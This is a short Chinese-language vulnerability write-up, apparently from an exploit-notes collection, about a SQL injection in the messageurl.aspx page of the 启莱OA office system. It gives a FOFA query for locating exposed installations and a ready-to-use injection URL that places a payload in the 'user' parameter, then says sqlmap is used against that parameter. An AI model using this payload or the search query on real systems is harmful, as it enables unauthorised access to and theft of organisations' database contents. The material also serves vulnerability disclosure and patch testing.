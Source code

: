 # 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> 启莱OA

## FOFA

> app="启莱OA"

## 漏洞复现

登录页面如下

![1-1](resource/启莱OA/1-1.png)

存在SQL注入的文件为 messageurl.aspx

```
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![ql-2](resource/启莱OA/ql-2.png)

使用SQLmap对参数 user 进行注入

![ql-3](resource/启莱OA/ql-3.png)